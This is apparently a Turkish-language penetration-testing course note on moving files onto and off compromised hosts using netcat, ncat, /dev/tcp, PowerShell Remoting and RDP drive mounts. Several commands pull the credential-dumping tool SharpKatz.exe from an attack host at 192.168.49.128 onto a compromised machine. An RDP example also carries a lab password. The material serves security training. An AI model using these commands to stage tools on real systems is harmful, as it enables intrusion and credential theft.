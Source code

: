 ```yaml
---
icon: material/circle-small
---
```


# Miscellaneous File Transfer Methods

## Netcat

Netcat veya nc, TCP veya UDP kullanarak ağ bağlantılarından okumak ve bu bağlantılara yazmak için kullanılan bir bilgisayar ağı yardımcı programıdır.

Orijinal Netcat, 1995 yılında Hobbit tarafından piyasaya sürüldü. Bu aracın esnekliği ve kullanışlılığı, Nmap projesini, Netcat aracının daha modern ve gelişmiş bir versiyonu olan Ncat aracını geliştirmeye yöneltti.

### NetCat - Compromised Machine - Listening on Port 8000

```bash
nc -l -p 8000 > SharpKatz.exe
```

### Ncat - Compromised Machine - Listening on Port 8000

```bash
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

### NetCat - Attack Host - Sending File to Compromised machine

```bash
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

### Ncat - Attack Host - Sending File to Compromised machine

```bash
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

### Attack Host - Sending File as Input to Netcat

Ele geçirdiğimiz makinede gelen bağlantıları dinlemek yerine, dosya aktarım işlemini gerçekleştirmek için saldırı makinemizde bulunan bir porta bağlanabiliriz. Bu yöntem, gelen bağlantıları engelleyen bir güvenlik duvarının olduğu senaryolarda kullanışlıdır. Örneğin 443 numaralı portu dinleyelim ve ilgili dosyayı Netcat aracına girdi olarak gönderelim:

```bash
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

### Compromised Machine Connect to Netcat to Receive the File

```bash
nc 192.168.49.128 443 > SharpKatz.exe
```

### Attack Host - Sending File as Input to Ncat

```bash
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

### Compromised Machine Connect to Ncat to Receive the File

```bash
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File

Ele geçirdiğimiz makinede Netcat veya Ncat yoksa [/dev/tcp](https://tldp.org/LDP/abs/html/devref1.html) kullanılabilir:

```bash
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

## PowerShell Session File Transfer

Dosya aktarımı için HTTP, HTTPS veya SMB protokollerinin kullanılamadığı senaryolar ile karşılaşabiliriz. Böyle durumlarda, dosya aktarım işlemlerini gerçekleştirmek için [PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) (WinRM) kullanılabilir.

PowerShell Remoting, PowerShell oturumlarını kullanarak uzaktaki bir bilgisayarda komut dosyaları veya komutlar yürütmemize olanak tanır. PowerShell uzaktan iletişimi etkinleştirmek HTTP ve HTTPS dinleyicileri oluşturur. Dinleyiciler, HTTP için 5985/tcp ve HTTPS için 5986/tcp portlarında çalışır.

Uzak bir bilgisayarda PowerShell Remoting oturumu oluşturmak için aşağıdakiler gereklidir:

* Yönetici erişimine sahip olmak.
* Remote Management Users grubunun üyesi olmak veya oturum yapılandırmasında PowerShell Remoting için açık izinlere sahip olmak.

Örneğin `DC01` bilgisayarından `DATABASE01` bilgisayarına (ve tersi) dosya aktarmamız gereksin. Bu örnekte `DC01` bilgisayarında Administrator olarak bir oturumumuz bulunmaktadır. Aynı zamanda kullanıcı `DATABASE01` üzerinde yönetici haklarına sahip ve PowerShell Remoting etkin durumdadır.

Aşağıda verilen komut, `DATABASE01` bilgisayarında 5985/tcp WinRM açık olup olmadığını (`DC01` bilgisayarından) test etmektedir:

```powershell
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

```text title="Output"
ComputerName     : DATABASE01
RemoteAddress    : 192.168.1.101
RemotePort       : 5985
InterfaceAlias   : Ethernet0
SourceAddress    : 192.168.1.100
TcpTestSucceeded : True
```

Bu oturum halihazırda `DATABASE01` üzerinde gerekli ayrıcalıklara sahip olduğundan kimlik bilgilerinin belirtilmesine gerek yoktur. Aşağıdaki örnekte `DATABASE01` adlı uzak bilgisayarda bir oturum oluşturulmakta ve sonuçlar bir değişkende saklanmaktadır:

```powershell
$Session = New-PSSession -ComputerName DATABASE01
```

### Copy samplefile.txt from our Localhost to the DATABASE01 Session

```powershell
Copy-Item -Path "C:\samplefile.txt" -ToSession $Session -Destination "C:\Users\Administrator\Desktop\"
```

### Copy DATABASE.txt from DATABASE01 Session to our Localhost

```powershell
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination "C:\" -FromSession $Session
```

## RDP

Bir Linux klasörünü `rdesktop` aracını kullanarak bağlamak için aşağıdaki komut kullanılabilir:

```bash
rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```

Bir Linux klasörünü `xfreerdp` aracını kullanarak bağlamak için aşağıdaki komut kullanılabilir:

```bash
xfreerdp /dynamic-resolution /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

Dizine erişmek için tsclient (Terminal Server Client) yoluna bağlanabiliriz:

![](../assets/images/tsclient.jpg)

Alternatif olarak [mstsc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/mstsc) uzak masaüstü istemcisi kullanılabilir:

![](../assets/images/rdp.png)

Sürücüyü seçtikten sonra uzak oturumda bu sürücüyle etkileşime geçebiliriz. Bu sürücü, hedef bilgisayarda oturum açan diğer kullanıcılar tarafından (RDP oturumunu ele geçirmeyi başarsalar bile) erişilemez.

## Practice Makes Perfect

Bu modülde öğrenilen bilgiler aşağıdaki modüllerde de kullanışlı olacaktır:

* Active Directory Enumeration and Attacks (Skills Assessments 1 & 2)
* Pivoting, Tunnelling & Port Forwarding
* Attacking Enterprise Networks
* Shells & Payloads
